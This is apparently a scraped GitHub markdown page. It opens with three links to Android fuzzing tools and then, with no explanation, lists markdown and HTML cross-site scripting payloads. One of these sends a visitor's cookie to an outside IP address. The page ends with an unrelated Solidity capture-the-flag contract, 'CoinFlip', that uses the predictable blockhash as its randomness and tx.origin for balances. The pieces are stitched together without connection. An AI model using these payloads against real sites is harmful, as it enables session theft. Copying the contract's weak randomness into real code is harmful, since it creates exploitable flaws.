 Fuzzing Android

[libfuzzer](https://source.android.com/devices/tech/debug/libfuzzer)

[honggfuzz](https://github.com/google/honggfuzz/blob/master/docs/Android.md)

[droid-ff](https://github.com/antojoseph/droid-ff)


[link](<script>alert(1)</script>)
[click](javascript:alert('xss'%29)
[click](%01javascript:alert('xss'%29)
[clickme](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pgo=)
[click](javascript:window.onerror=alert;throw%201)
<IMG SRC=/ onerror="String.fromCharCode(88,83,83)"></img>
<a href=javascript:alert('xss')>click</a>
[click](javascript:window.location.replace('http://78.183.89.119:1337/?cookie='+document.cookie%29)

```solidity
pragma solidity ^0.4.23;

contract CoinFlip {  
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  mapping (address => uint) balances;
  

  function CoinFlip() public {
    balances[tx.origin] = 0;
  }

  event FLAG(string b64email, string slogan);
  
  function getbalance() public constant returns (uint){
      return balances[tx.origin];
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      balances[tx.origin]++;
      return true;
    } else {
      return false;
    }
  }

  function CaptureTheFlag(string b64email) public{
    require (balances[tx.origin]>20);
    emit FLAG(b64email, "Congratulations to capture the flag!");
  }

}
```